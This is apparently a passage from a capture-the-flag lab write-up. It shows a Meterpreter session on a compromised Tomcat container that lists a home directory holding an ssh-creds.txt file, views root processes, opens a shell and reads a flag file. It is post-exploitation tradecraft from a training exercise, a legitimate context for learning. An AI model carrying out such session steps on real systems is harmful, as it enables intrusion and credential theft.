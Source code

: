 ```bash
meterpreter > cd /home/santa/
meterpreter > ls -la
Listing: /home/santa
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  30    fil   2019-12-09 02:39:49 +0530  ssh-creds.txt

meterpreter > ps

Process List
============

 PID  PPID  Name            Arch    User  Path
 ---  ----  ----            ----    ----  ----
 1    0     java            x86_64  root  /usr/lib/jvm/java-7-openjdk-amd64/jre/bin/java
 54   1     [sh]            x86_64  root
 58   1     [vxgfiCHuKxzV]  x86_64  root
 75   1     [NjlgQuDBpGk]   x86_64  root
 82   1     [YnFzWqxhOfe]   x86_64  root
 146  1     [ZlGHyYhVUyU]   x86_64  root
 151  1     wPqqXTVVv       x86_64  root  /usr/local/tomcat/wPqqXTVVv

meterpreter > cd /
meterpreter > ls -la
Listing: /
==========

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100755/rwxr-xr-x  0     fil   2023-11-14 20:29:13 +0530  .dockerenv
040755/rwxr-xr-x  4096  dir   2017-06-23 08:09:16 +0530  bin
040755/rwxr-xr-x  4096  dir   2017-04-21 03:13:23 +0530  boot
040755/rwxr-xr-x  340   dir   2023-11-14 20:29:14 +0530  dev
040755/rwxr-xr-x  4096  dir   2017-07-04 05:32:27 +0530  docker-java-home
040755/rwxr-xr-x  4096  dir   2023-11-14 20:29:13 +0530  etc
040755/rwxr-xr-x  4096  dir   2019-12-09 02:29:06 +0530  flag-dir
040755/rwxr-xr-x  4096  dir   2019-12-09 02:38:30 +0530  home
040755/rwxr-xr-x  4096  dir   2017-07-04 05:32:27 +0530  lib
040755/rwxr-xr-x  4096  dir   2017-06-20 05:30:00 +0530  lib64
040755/rwxr-xr-x  4096  dir   2017-06-20 05:30:00 +0530  media
040755/rwxr-xr-x  4096  dir   2017-06-20 05:30:00 +0530  mnt
040755/rwxr-xr-x  4096  dir   2017-06-20 05:30:00 +0530  opt
040555/r-xr-xr-x  0     dir   2023-11-14 20:29:14 +0530  proc
040700/rwx------  4096  dir   2019-12-09 02:42:15 +0530  root
040755/rwxr-xr-x  4096  dir   2017-06-20 05:30:00 +0530  run
040755/rwxr-xr-x  4096  dir   2017-06-20 05:30:00 +0530  sbin
040755/rwxr-xr-x  4096  dir   2017-06-20 05:30:00 +0530  srv
040555/r-xr-xr-x  0     dir   2023-11-14 20:40:59 +0530  sys
041777/rwxrwxrwx  4096  dir   2019-12-09 02:31:40 +0530  tmp
040755/rwxr-xr-x  4096  dir   2017-07-04 05:31:39 +0530  usr
040755/rwxr-xr-x  4096  dir   2017-07-04 05:31:33 +0530  var

meterpreter > shell
Process 153 created.
Channel 2 created.
find / -type f -iname "*flag1*" 2>/dev/null
/usr/local/tomcat/webapps/ROOT/ThisIsFlag1.txt
cat /usr/local/tomcat/webapps/ROOT/ThisIsFlag1.txt
THM{*******************************}
```

